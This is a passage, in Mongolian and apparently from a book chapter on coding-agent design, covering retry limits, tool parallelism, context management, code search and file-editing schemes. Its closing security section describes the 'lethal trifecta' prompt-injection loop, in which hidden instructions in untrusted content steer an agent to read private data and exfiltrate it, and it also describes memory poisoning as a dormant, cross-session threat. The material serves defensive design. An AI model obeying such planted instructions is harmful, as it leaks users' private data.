**Дуусгах: сэргээх зам бүр дээд хязгаартай байх шаардлагатай.** Сэргээх механизмууд өөрсдөө бүтэлгүйтэж болох тул сэргээх зам бүр тодорхой давтан оролдлогын дээд хязгаартай байх ёстой: хэд хэдэн дараалсан алдааны дараа Context нягтрал зогсдог; зөвшөөрлийн ангилагч нь давтан алдааны дараа хүнээс асуухаас өөр аргагүй болдог; гаралтын үргэлжлэлийг хамгийн ихдээ тогтмол тоогоор оролддог. Босго нь хаанаас гардаг вэ? Үйлдвэрлэлийн өгөгдөл, таамаглал биш. Claude кодын нягтруулах хэлхээний таслуурыг авч үзье: "3 дараалсан алдаа" гэсэн босго нь бодит сессийн статистикаас гардаг - нэг сесс нь энэ сэргээх зам дээр дараалан гурван мянга гаруй удаа бүтэлгүйтсэн бөгөөд ийм ашиггүй давтан оролдлогууд нь дэлхий даяар өдөрт 250,000 орчим API дуудлагыг үрэн таран хийсэн; мянга гаруй сесс нь 50+ дараалсан алдааны дарааллыг харсан. Гуравдугаарт, "алдаанаас дийлэнх нь үүнээс өмнө сэргэдэг" болон "цаашид дахин оролдох нь үндсэндээ найдваргүй" гэсэн хоёрын хоорондох эмпирик эргэлтийн цэг юм.

Нэг цэгийн таслагчаас илүү зальтай зүйл бол **үхлийн спираль** юм: алдааны зам дээр өөрөө идэвхжсэн логик нь LLM-г дуудаж, дахин алдаа гаргаад каскад хийдэг. Нэг жинхэнэ каскад: Agent нь Context халих алдаа дээр зогсдог бөгөөд энэ нь "гарах үед кодыг баталгаажуулдаг" зогсоох дэгээ (Agent дуусахад автоматаар ажилладаг цэвэрлэх логик) ажиллуулдаг, дэгээ нь LLM-г дуудаж, commit мессеж бичдэг, Context дахин халиад, дэгээ дахин ажилладаг. Хамгаалалт хоёр хэсгээс бүрдэнэ: алдааны зам дээрх Model-ыг дууддаг бүх гаж нөлөөг идэвхгүй болгох (автомат санах ойг гаргаж авах гэх мэт туслах функцийг нэг удаа алдах нь дээр), үлдэгдэл каскадыг илрүүлж, эвдэхийн тулд рекурсийн гүний тоолуур ашиглах. Эцэст нь, бүх автомат механизмуудаас хамгийн түрүүнд дэлхийн төгсгөл болон өргөтгөлийн нөхцөлүүд байдаг: эргэлтийн хамгийн их тоо, сессийн төсвийн хязгаар, дараалсан алдаанууд босго хэмжээнээсээ хэтэрсэн үед хүний ​​оролцоо хүртэл өргөтгөл хийх.

### Agents код бичихэд хэрэгжих зөвлөмжүүд

Дээр дурдсан ажлын урсгал нь хамгийн тохиромжтой. Үүнийг практик дээр ажиллуулахын тулд хэд хэдэн тодорхой хэрэгжүүлэх техник шаардлагатай - хариу үйлдлийн хурдыг нэмэгдүүлэх, бодлын чанарыг доройтуулахгүйгээр Context хэрэглээг бууруулах аргууд. Эдгээр нь програмчлалын салбарт хэрэглэгддэг Бүлэг 2 ба 4-ийн ерөнхий Agent техникүүд юм.

**Зэрэгцээ Tool дуудлага, урсгалын гүйцэтгэл болон каскадын тасалдал.**

Уламжлалт Agent хэрэгжүүлэлтүүд нь ихэвчлэн цуваа ажилладаг: хэрэгслийн дуудлагыг үүсгэж, гүйцэтгэж, үр дүнг нь аваад дараагийн алхмыг шийддэг. Энэхүү хатуу дараалал нь маш их цагийг үрдэг.

Орчин үеийн кодчилол Agents нь урсгалын хариу үйлдлийг бүрэн ашиглах ёстой: Бүлэг 2 нь Model-ын гаралтын дарааллыг хэлэлцэхдээ энэ механизмыг нэвтрүүлсэн - эхний хэрэгслийн дуудлагын параметрүүд бүрэн үүсч, баталгаажуулалтыг давсны дараа Model дараагийн хэрэгслийн дуудлагыг үүсгэхийг хүлээлгүйгээр гүйцэтгэлийг шууд эхлүүлж болно. Жишээлбэл, хэрэв Model нь нэг дүгнэлтэд гурван хэрэгслийн дуудлагыг гаргах шаардлагатай бол - код хайх, тохиргооны файлуудыг шалгах, бүртгэлийг унших - эхний дуудлага нь параметрүүд нь бүрэн гүйцэд болж, баталгаажсан даруйд гүйцэтгэгдэж эхлэх бөгөөд энэ нь нөгөө хоёрын үүсэлттэй давхцаж болно. Бие даасан дуудлагыг дараалалд оруулахын оронд зэрэгцээ гүйцэтгэж болно. Энэхүү давхардсан гүйцэтгэл нь төгсгөлөөс төгсгөл хүртэлх хоцрогдолыг мэдэгдэхүйц бууруулж, Agent-ийн хариу үйлдлийг илүү уян хатан болгодог.

Зэрэгцээ гүйцэтгэлийн нөгөө тал нь алдааг зохицуулах явдал юм. Хэрэгслийн тодорхойлолт бүр нь зэрэгцээ гүйцэтгэлийг дэмждэг эсэхийг мэдэгдэх ёстой (анхдагч утга нь үгүй, алдаа гарахгүй). Дуудлага амжилтгүй болсон үед каскадын тасалдлын механизм нь үр дүнгээс нь хамааралтай ижил багцад эхэлсэн бусад дуудлагыг зогсоодог боловч бие даасан дуудлага эсвэл эцэг эхийн үйл ажиллагаанд нөлөөлдөггүй - энэ нь Harness инженерчлэлийн хэсгээс гарсан "алдааны хил хязгаарыг хянах" зарчмын бодит хэрэгжилт юм.

**Нарийвчилсан Context менежмент.**

Agents кодчилолын үндсэн бэрхшээл нь кодын баазууд нь ихэвчлэн том байдаг ч Model-ын Context цонх хязгаарлагдмал байдагт оршино. Дэвшилтэт Model-ууд сая сая Token-ыг дэмждэг гэж мэдэгдсэн ч гэсэн бүхэл бүтэн кодын баазыг Context-эд оруулах нь эдийн засгийн хувьд ч, шаардлагагүй ч биш юм. Ухаалаг Context менежмент нь олон түвшинд ажиллах шаардлагатай.

Файлын унших түвшинд Agent нь файлыг бүхэлд нь үргэлж унших ёсгүй. Том файлуудын хувьд хэрэгсэл нь тодорхой мөрийн хүрээг уншихыг дэмжих ёстой - жишээлбэл, мянга мянган мөртэй файлыг ачаалахын оронд зөвхөн 100-150 мөрийг унших. Хамгийн чухал нь контентыг буцаах үед мөрийн дугаарыг хавсаргах ёстой - кодын мөр бүр өөрийн бодит мөрийн дугаараар өмнө нь тавигдсан байдаг. Энэхүү энгийн мэт санагдах Model нь маш их үнэ цэнийг авчирдаг: Model нь "`src/main.py`-ийн 42-р мөр"-ийг яг таг лавлаж чаддаг тул хоёрдмол утгыг багасгаж, дараагийн засварлах үйлдлүүдийг илүү найдвартай болгодог.

Тушаал гүйцэтгэх түвшинд терминалын гаралтыг зохицуулах нь бас анхаарал шаарддаг. Эмхэтгэх эсвэл турших нь мянга мянган мөр гаралтыг бий болгож чадна. Хэрэв энэ бүгдийг Context-эд оруулбал төсөв хурдан дуусдаг. Бүлэг 4-т нэвтрүүлсэн урт гаралтыг таслах болон тогтвортой байлгах механизмыг энд өргөн хэрэглэдэг: гаралтын эхний хэдэн мөрийг (ихэвчлэн алдааны Context агуулсан) болон сүүлийн хэдэн мөрийг (ихэвчлэн алдааны хураангуйг агуулсан) хадгалж, дунд хэсгийг нэг мөрийн орлуулагчаар сольж, бүрэн гаралтыг хүсэлтийн дагуу үзэхийн тулд түр зуурын файлд хадгалсан болохыг анхаарна уу.

**Хүрээлэн буй орчны мэдээллийн динамик тарилга.**

Энэ нь Бүлэг 2-оос Agents кодлох хүртэлх Agent төлөвийн мөрийн техникийг практик хэрэглээ юм. Ерөнхий Agents-ээс ялгаатай нь Agents кодлох нь гүйцэтгэх орчны төлөв байдлаас ихээхэн хамаардаг. Дүгнэлт бүрийн өмнө дараах гол орчны мэдээллийг Context-ийн төгсгөлд Agent төлөвийн мөр хэлбэрээр оруулах ёстой.

- **Одоогийн ажиллаж байгаа лавлах**: замын лавлагаа зөв эсэхийг баталгаажуулдаг
- **Git салбар**: үндсэн салбар эсвэл онцлог салбар дээр ажиллаж байгаа эсэхийг мэддэг
- **Сүүлийн үеийн коммитын түүх**: төслийн хувьслыг ойлгодог
- **Үе шаттай болон үе шаттай өөрчлөлтүүдийн Тойм**: ямар өөрчлөлтүүд хийгдсэнийг мэддэг

Энэ мэдээллийг KV кэшийн үр ашгийг алдагдуулах статик системийн хүсэлт болгон хатуу кодлох ёсгүй, харин динамикаар үүсгэж, хавсаргасан Agent төлөвийн мөр болгон оруулах ёстой. Ингэснээр Agent нь "байгаль орчны талаарх мэдлэг"-ийг олж авдаг бөгөөд шийдвэр бүр нь хуучирсан таамаглалаас илүүтэй одоогийн төлөвийн талаарх нарийн ойлголт дээр суурилдаг.

**Тушаал гүйцэтгэх орчинд тууштай байдлыг тодорхойлох.**

Кодтой харилцах үед олон үйлдлүүд орчны төлөвөөс хамаардаг: санг өөрчлөх, виртуал орчныг идэвхжүүлэх, орчны хувьсагчдыг тохируулах, суурь үйлчилгээг эхлүүлэх. Хэрэв команд бүрийг шинэ бүрхүүлд гүйцэтгэвэл энэ бүх төлөв алдагдана - Agent нь төслийн лавлах руу шилжихдээ `cd`-г ашигласан боловч дараагийн команд нь бүрхүүлийн анхдагч лавлахад дахин эхэлж, ижил тохиргоог давтахад хүргэдэг. Хамгийн муу нь зарим үйлдлүүдийн үр нөлөө (жишээлбэл, Python виртуал орчныг идэвхжүүлэх) нь зөвхөн одоогийн бүрхүүлийн сесс дотор хүчинтэй бөгөөд сессүүдээр дамжуулж болохгүй.

Тиймээс Agent эхлэхэд үүсгэгдэж, бүх харилцан үйлчлэлийн туршид идэвхтэй хэвээр байх байнгын терминалын сессийг хадгалах хэрэгтэй. Тушаал бүрийг энэхүү хуваалцсан терминалд гүйцэтгэж, ажлын лавлах, орчны хувьсагч болон сессийн төлөвийг хадгалдаг. Энэхүү загвар нь хүний ​​хөгжүүлэгчдийн ажлын зуршилтай илүү нийцдэг - бид ихэвчлэн удаан хугацаанд ажилладаг терминалын цонхонд ажилладаг. Мэдээжийн хэрэг, Agent нь зэрэгцээ даалгавруудыг дэмжихийн тулд тусгаарлагдсан терминалуудыг эхлүүлэх чадварыг хадгалах ёстой боловч байнгын сесс нь анхдагч горим байх ёстой.

**Шуурхай синтаксийн санал хүсэлтийн механизм.**

Энэ нь Agent төлөвийн мөрийн техникийн үнэ цэнийг дахин нэг удаа харуулж байна. Agent нь кодыг өөрчилсний дараа синтаксийг шалгахаасаа өмнө хэрэглэгчээс тодорхой туршилт хийхийг хүсэхийг хүлээх ёсгүй. Илүү үр дүнтэй арга бол хэрэгслийн давхарга нь файл бичих үйлдэл дууссаны дараа харгалзах мөр эсвэл синтакс шалгагчийг автоматаар ажиллуулж, үр дүнг хэрэгслийн Agent руу буцах утгын нэг хэсэг болгон харуулах явдал юм. Хэрэв синтаксийн алдаа илэрсэн бол Agent нь дараагийн дүгнэлтийн шатанд дэлгэрэнгүй алдааны мэдээллийг шууд хардаг - IDE нь тохирохгүй хаалтанд шууд тэмдэглэдэгтэй адил. Энэхүү шуурхай санал хүсэлтийн механизм нь алдааг засах зардлыг мэдэгдэхүйц бууруулдаг, учир нь Agent нь алдааг илрүүлэхийн тулд тест ажиллуулахыг хүлээлгүйгээр нэвтрүүлсэн мөчид нь засах боломжтой.

Параллелизм ба урсгал, Context менежмент, хүрээлэн буй орчны мэдлэг, төлөвийн тогтвортой байдал, шуурхай санал хүсэлт зэрэг эдгээр таван хэрэгжүүлэлтийн арга техник нь үр ашигтай кодчилолын Agent-ийн техникийн үндэс суурийг бүрдүүлдэг. Эдгээр нь тусгаарлагдсан оновчлолын цэгүүд биш, харин харилцан бие биенээ бэхжүүлдэг дизайны шийдвэрүүд бөгөөд бүгд Agent-ийг туршлагатай хөгжүүлэгч шиг жигд ажиллуулах боломжийг олгох гэсэн ганц зорилгод чиглэдэг.

### Agents кодчилол дотроос Tools хайх

Том кодын санд холбогдох кодыг олох нь Кодлох Agent-ийн ажлын эхлэлийн цэг юм. Зураг 5-3 нь хэд хэдэн нэмэлт хайлтын хэрэгслийг харьцуулж, боловсорсон Кодлох Agent нь даалгаврын мөн чанарт үндэслэн хайлтын аргуудыг хэрхэн сонгох ёстойг харуулж байна.



**Regex контентын тохируулга** (grep/ripgrep): Хамгийн уламжлалт хайлтын арга бөгөөд файлын агуулгыг мөр мөрөөр нь сканнердаж, загварын тохирлыг шалгадаг. Agent нь олох ёстой яг текстийг (функцийн нэр, хувьсагчийн нэр, алдааны мэдэгдэл) мэдэж байх үед бүх тохиолдлыг хурдан бөгөөд зөв байрлуулж чадна. Ердийн илэрхийллийн илэрхийлэл (тусгай тэмдэг бүхий текстийн хэв маягийг тодорхойлох синтакс, жишээлбэл, `def handle.*` нь `handle`-ээс эхэлсэн бүх функцийн тодорхойлолттой таардаг) нь нарийн төвөгтэй хэв маягийг олж авдаг - зөвхөн шууд текст төдийгүй тодорхой бүтэцтэй нийцсэн код. Практикт файлын төрлийн шүүлтүүр (зөвхөн Python файлуудыг хайх) болон замын хэв маягийн шүүлтүүрийг (туршилтын санг оруулахгүй) дуу чимээг багасгахын тулд дэмжих ёстой. Үндсэн хязгаарлалт: энэ нь зөвхөн текстийн тохирлыг олдог бөгөөд ямар ч семантикийг ойлгодоггүй - "хэрэглэгчийн баталгаажуулалт" гэсэн хайлт нь нэвтрэх логикийг зохицуулдаг боловч "баталгаажуулалт" гэсэн үг агуулаагүй функцийг хэзээ ч ил гаргахгүй.

**Файлын нэрийн загварын тохируулга** (glob): Файлын агуулгыг үл тоомсорлож, зөвхөн файлын системийн замын бүтцээс загварт тохирсон файлуудыг хайдаг. Жишээлбэл, `**/*.test.ts` нь бүх TypeScript туршилтын файлуудыг рекурсив байдлаар олдог бол `src/components/**/Button.tsx` нь бүрэлдэхүүн хэсгүүдийн доор ямар ч гүнд Button.tsx файлыг хайдаг. Энэ нь контент хайлтаас хамаагүй хурдан (файл нээж, унших шаардлагагүй) бөгөөд Agent-ийн төслийн бүтцийг судлах эхний алхам бөгөөд файлын системийг бүхэлд нь сканнердах замаар төслийн зохион байгуулалтын хүрээг хурдан тогтоох явдал юм.

**Утга зүйн кодын хайлт**: Эхний хоёр яг тааруулсан аргуудаас ялгаатай нь энэ нь асуулга болон кодын "утга"-г ойлгохыг оролддог. Энэ нь хоёр гол асуудлыг шийдэх шаардлагатай:

- **Бүтцийг мэддэг хэсгүүдийг хуваах**: Код нь хатуу синтаксик бүтэцтэй бөгөөд тогтмол тооны тэмдэгтээр сохроор таслахын оронд функц, класс, метод гэх мэт бүрэн утга зүйн нэгжээр хуваагдах ёстой.
- **Эрлийз хайлт** (Бүлэг 3 нь энэ технологийн стекийг дэлгэрэнгүй тайлбарласан): Vector оруулга (нягт оруулга) нь өөр өөр үг хэллэгтэй семантикийн хувьд ижил төстэй кодыг олоход (жишээ нь, "хэрэглэгчийн таних тэмдгийг баталгаажуулах" гэж хайхад `check_credentials` нэртэй функцийг олох боломжтой), харин түлхүүр үгийн тохируулга нь функц болон хувьсагчийн нэрийг яг тааруулж олоход илүү сайн байдаг. Энэ хоёр зэрэгцээ ажилладаг бөгөөд үр дүнг reranker (нэр дэвшигчийн үр дүнгийн дагуу нарийн нягт хамаарлын зэрэглэлийг гүйцэтгэдэг хөндлөн кодлогч)-ээр нэгтгэж, эрэмбэлдэг бөгөөд энэ нь нэмэлт хамрах хүрээг хангадаг.

Семантик хайлт нь танил бус кодын баазаас "мэдээллийн сантай харилцах" эсвэл "хэрэглэгчийн оролтын баталгаажуулалтыг зохицуулах"-тай холбоотой кодыг олох гэх мэт хайгуулын ажлуудад онцгой тохиромжтой.

Гэсэн хэдий ч семантик хайлтад зориулж оруулах индексүүдийг бий болгох нь үнэ цэнэтэй эсэх талаар салбарт тодорхой маргаан өрнөж байна. Claude гэх мэт терминал дээр суурилсан Agents код нь санаатайгаар **оруулах индексүүдийг** бүтээдэггүй бөгөөд зөвхөн агентлаг grep + glob-д тулгуурлан шууд хайлт хийдэг - энэ нь код хөгжихийн хэрээр хуучирдаг индексүүдийг хадгалахаас зайлсхийж, индексжүүлэлтийн бүх дэд бүтцийг арилгадаг. Cursor гэх мэт IDE дээр суурилсан хэрэгслүүд анх эсрэг арга барилыг баримталсан: тэд **файл хоорондын семантик санах ойд** индексүүдийг бий болгох зардлыг төлөхөд бэлэн байдаг бөгөөд том кодын баазаас семантик холбоотой боловч өөр өөрөөр бичигдсэн хэсгүүдийг хурдан олохын тулд оруулах индексүүдийг ашигладаг. Өнөөдөр Cursor гэх мэт IDE-үүд мөн шууд grep + glob хайлт руу шилжсэн.

**Тэмдэглэгээний түвшний Тодорхойлолт болон лавлагаа хайх**: Энэ арга нь IDE-тэй төстэй "тодорхойлолт руу очих" болон "бүх лавлагааг олох" чадварыг ашиглан тэмдэгтийн тодорхойлолтыг лавлагаанаас ялгадаг - жишээлбэл, 42-р мөрөнд байгаа `authenticate`-г функцийн тодорхойлолт, 189-р мөрөнд байгаа тохиолдлыг дуудлага гэж тодорхойлдог бол текст хайлт нь зөвхөн тухайн мөрийг агуулсан бүх мөрийг олох боломжтой. Үндсэн кодчилолын Agent-ууд одоогоор энэ аргыг ашигладаггүй.

Эдгээр дөрвөн хайлтын аргууд нь нэмэлт хэрэгслийн хайрцгийг бүрдүүлдэг бөгөөд практикт ихэвчлэн хослуулан ашиглагддаг: эхлээд холбогдох модулиудыг олохын тулд семантик хайлтыг ашиглах, дараа нь кодын тодорхой мөрүүдийг нарийн олохын тулд регекс тохируулгыг ашиглах, эцэст нь дуудлагын гинжин хэлхээг мөрдөхийн тулд тэмдэгт хайлтыг ашиглах - "бүдүүнээс нарийн хүртэл, семантикаас синтакс хүртэл" дэвшилтэт стратеги.

### Agents кодчилолд Tools файл засварлах

Файл засварлахын хүндрэл нь үйл ажиллагаанд өөрөө биш, харин LLM ашиглан системд "юуг өөрчлөх, хэрхэн өөрчлөх" талаар хэрхэн үр ашигтай, найдвартай хэлэх вэ гэдэгт оршино. Зураг 5-4 нь хүний ​​хэлний илэрхийлэл болон машины нарийвчлалтай гүйцэтгэлийн хоорондох үндсэн зөрчилдөөнийг харуулсан таван файл засварлах схемийг харьцуулсан болно.



**Ялгааны тайлбар + Apply Model**: Model нь файлыг хэрхэн засахыг шууд заагаагүй; үүний оронд энэ нь өөрчлөлтийн тайлбарыг үүсгэдэг - энэ нь git diff-тэй төстэй diff текст (`git diff` командын гаралтын формат, "аль мөрүүд устгагдсан, аль нь нэмэгдсэнийг харуулсан") эсвэл орхигдсон тэмдэглэгээтэй кодын араг яс (өөрчлөгдөөгүй хэсгүүдийг алгасахын тулд "энд өөрчлөгдөөгүй хэвээр байх" гэх мэт тайлбарыг ашиглан) байж болно. Энэ тайлбарыг дараа нь тусгай "Apply Model"-д - ихэвчлэн өөр, жижиг, хурдан LLM-д - бүрэн шинэ файл үүсгэхийн тулд анхны файлтай нэгтгэх үүрэгтэй. Асуудлуудыг ийм салгах нь үндсэн Model-т өндөр түвшний кодын логик дээр анхаарлаа төвлөрүүлэх, apply Model-т доод түвшний текстийн үйлдлүүд дээр анхаарлаа төвлөрүүлэх боломжийг олгодог. Гэнэн хэрэгжилтийн эмзэг байдал нь нэгтгэх алхамд оршино: өөрчлөлтийн тайлбар болон бодит файлын кодын хооронд бага зэргийн зөрүү байгаа үед тэдгээр нь ижил байршилд хамааралтай эсэхийг тодорхойлох шаардлагатай; олон ижил төстэй кодын хэсгүүд байгаа үед энэ нь буруу газар нэгтгэгдэж магадгүй юм. Курсор нь энэ аргын тасралтгүй хувьслын төлөөлөл юм: үндсэн Model нь орхигдсон тэмдэглэгээ бүхий кодын араг ясыг гаргадаг, тусгайлан сургагдсан хурдан хэрэглэх жижиг Model нь файлыг бүхэлд нь дахин бичдэг, мөн таамаглалын декодчилол (анхны файлын агуулгыг зэрэгцээ баталгаажуулалтын ноорог болгон ашигладаг) нь нэгтгэх хурдыг секундэд мянга мянган Token болгон нэмэгдүүлдэг - инженерийн хөрөнгө оруулалт нь энэ аргын найдвартай байдал, хурдыг худалдаж авсан.

**Хуучин мөр → Шинэ мөр**: Claude кодын баримталсан арга. Model нь хуучин мөр (солих анхны текст) болон шинэ мөр (орлуулах текст)-ийг өгдөг бөгөөд хүрээ нь энгийн мөрийг олох ба солих үйлдлийг гүйцэтгэдэг. Давуу тал нь урьдчилан таамаглах боломжтой байдал болон ил тод байдал юм - хэрэв хуучин мөр байгаа бөгөөд файлд өвөрмөц байвал амжилттай болно; эс тэгвээс энэ нь бүтэлгүйтнэ. Хоёрдмол утга байхгүй. Өртөг нь кодын том блокуудыг устгахын тулд бүх анхны агуулгыг бүрэн хэмжээгээр гаргах шаардлагатай болдог; нэг тэмдэгтийн хазайлт нь тохирол амжилтгүй болоход хүргэдэг. Ижил код олон удаа гарч ирэхэд хоёрдмол утгыг салгахын тулд илүү урт Context өгөх шаардлагатай.

**Мөрийн дугаарыг чиглүүлэх** (Хуучин мөрийн дугаарууд → Шинэ мөр): Model нь "X-ээс Y хүртэлх мөрүүдийг устгаад, шинэ контент оруулна уу" гэж заасан байдаг. Хэрэв файл унших хэрэгсэл нь мөрийн дугааруудыг агуулсан бол Model нь солих яг тодорхой хүрээг тодорхойлж чадна. Том блокийг устгахад зөвхөн түүний эхлэх болон дуусах мөрийн дугаарууд шаардлагатай. Гэсэн хэдий ч засвар бүр түүнийг дагасан мөрийн дугааруудыг шилжүүлдэг. Model нь нэгэн зэрэг хэд хэдэн засвар санал болгох үед бүх засвар нь төөрөгдөлд орохоос зайлсхийхийн тулд дифференциал шиг анхны мөрийн дугааруудыг дурдах ёстой.

**Vim-тэй төстэй Засварлах Командууд**: Vim засварлагчийн командын системээс зээлсэн бөгөөд хуулбарлах, хайчлах, буулгах зэрэг баялаг үйлдлүүдийг дэмждэг. Кодыг бүтцийн өөрчлөлт хийхэд маш үр дүнтэй (функцийг нэг газраас нөгөө газар шилжүүлэх). Гэхдээ командын синтакс нь жинхэнэ суралцах ачааллыг үүрдэг: хамгийн хүчтэй Model-ууд үүнийг сайн зохицуулдаг бол жижиг Model-ууд мэдэгдэхүйц илүү их алдаа гаргадаг. Энэ арга нь нэг удаагийн сэтгэлгээнээс хэд хэдэн засварлах команд гаргадаг Model-т бас ээлгүй юм, учир нь Vim засвар бүрийн дараа файлын агуулга болон мөрийн дугаар өөрчлөгддөг бөгөөд Model нь засварласны дараах мөрийн дугаарыг урьдчилан тооцоолж чадахгүй. Илүү гүнзгий бодол: Vim гэх мэт засварлагчид хүмүүст зориулагдсан бөгөөд **хүн одоогийн төлөвийг харж, дараа нь нэг энгийн дараагийн үйлдлийг төлөвлөх шаардлагатай** (кодын мөр бичиж, хэдэн мөрийг устгах). Гэхдээ өнөөдөр **Model нь нэлээд удаан хугацаанд бодож, дараа нь нэлээд төвөгтэй үйлдлүүдийн багцыг гүйцэтгэх замаар ажилладаг** (нэг дор хэдэн зуун мөр код бичих).

**Мөр Эхлэл + Төгсгөл Тохируулга** (Хуучин Мөр Эхлэл + Төгсгөл → Шинэ Мөр): Үүнийг хуучин мөр орлуулах схемээс сайжруулсан гэж үзэж болно. Model нь хуучин мөрийг бүрэн гаргах шаардлагагүй; зөвхөн устгах контентын эхний хэдэн мөр болон сүүлийн хэдэн мөрийг өгөх шаардлагатай бөгөөд дунд хэсгийг нь орхигдуулна. Хүрээ нь энэхүү эхлэл ба төгсгөлийн хосоос орлуулах хэсгийг олдог бөгөөд хослол нь файл дотор өвөрмөц байх ёстой. Энэхүү схем нь текст орлуулах найдвартай байдлыг мөрийн дугаарын аргын үр ашигтай хослуулсан - кодын том блокуудыг устгах үед анхны кодын хэдэн зуун мөрийг гаргах шаардлагагүй, зөвхөн хил хязгаарыг харуулах шаардлагатай. Үүний зэрэгцээ, энэ нь хийсвэр мөрийн дугаараас илүү агуулгын тохируулга дээр суурилдаг тул Model алдаа гаргах эрсдэл харьцангуй бага байдаг.

### Agents кодчилолын аюулгүй байдал

Энэ хэсэгт Coding Agent-ийн хамгаалалтыг уялдаа холбоотой хүрээнд зохион байгуулдаг: бид эхлээд **аюулын Model**-г тоймлон харуулсан бөгөөд аль эрсдэл хамгийн аюултай вэ; дараа нь **аюулгүй байдлын тор болгон тусгаарлах**-сүлжээний гаралт, файлын систем, хамгаалагдсан орчин дахь нөөцийн хязгаарлалт; дараа нь **гүйцэтгэх хугацааны хамгаалалт**-тушаалуудын утга зүйн задлан шинжлэл, аюулгүй байдлын шалгалтыг "үл үзэгдэх" болгодог таамаглалын гүйцэтгэл; эцэст нь **итгэлцэл ба үнэнч байдал**-Agent нь олон талт төлөөлөгчийн дор хэнд үйлчилдэг, мөн AI-ээр бичигдсэн код өөрөө итгэж чадахгүй үед итгэлцлийн хил хязгаарыг өгөгдлийн давхарга руу хэрхэн шилжүүлэх талаар авч үзнэ. Аюулын Model, үнэнч байдал, итгэлцлийн хил хязгаарын талаарх хэлэлцүүлэг нь бүх Agents-д хамаарна; хамгаалагдсан орчин болон командын задлан шинжлэл нь Coding Agents-д хамаарна.

Энэхүү "бүрэн эрхт Agent" загвар нь аюулгүй байдлын ноцтой сорилтуудыг авчирдаг. Кодчилдог Agent нь файл унших, бичих, команд гүйцэтгэх, сүлжээнд нэвтрэх эрхтэй бөгөөд энэ нь хортой зааврыг нэгэнт оруулсан тохиолдолд эргэлт буцалтгүй хохирол учруулж болзошгүй гэсэн үг юм. Хөгжүүлэгч, бие даасан судлаач Саймон Виллисон энэхүү эрсдэлийг өөрийн алдарт "Үхлийн гурвал"-аар нэгтгэн дүгнэсэн бөгөөд гурван элемент бүгд байх үед тэдгээр нь бүрэн халдлагын гогцоо үүсгэж, системийг өндөр эрсдэлд оруулдаг:

1.  **Хувийн Өгөгдөл руу нэвтрэх** — Agent нь хэрэглэгчийн файл болон нууц үгийн менежерүүдийг уншиж чадна.
2.  **Итгэмжгүй контентэд өртөх** — Боловсруулсан имэйл болон вэб хуудсууд нь хортой мэдээлэл агуулж болзошгүй.
3.  **Гаднах орчинтой харилцах чадвар** — Энэ нь имэйл илгээж, командуудыг гүйцэтгэж чадна.

Энэ нь халдлагын гогцоог хаадаг: итгэмжлэгдээгүй контентод нуугдсан хортой зааварчилгаа Agent руу орж, хувийн өгөгдлийг уншихын тулд хөтөлж, дараа нь гадаад сувгаар дамжуулан шүүрч авдаг. Тэмдэглэл нь гурван элементийн оршихуй нь нэмэлт нөхцөлгүйгээр өөрөө хангалттай аюултай гэж үздэг. Үүн дээр үндэслэн зохиогч дөрөв дэх хэмжээсийг нэмсэн - **Байнгын Санах ой**. Энэ нь зэрэгцээ дөрөв дэх зайлшгүй нөхцөл биш, харин халдлагын өсгөгч юм: халдагч нь Agent-ийн урт хугацааны санах ойд хор хөнөөлгүй мэт санагдах гажуудал эсвэл хортой зааврыг бичиж чаддаг бөгөөд тэдгээр нь сессүүдийн хооронд идэвхгүй байдалд оршиж, тохиромжтой мөчид өдөөгддөг - нэг удаагийн халдлагыг хүлээлтэд байгаа аюул заналхийлэл болгон хувиргаж, цаг хугацааны явцад улам бүр нэмэгддэг.

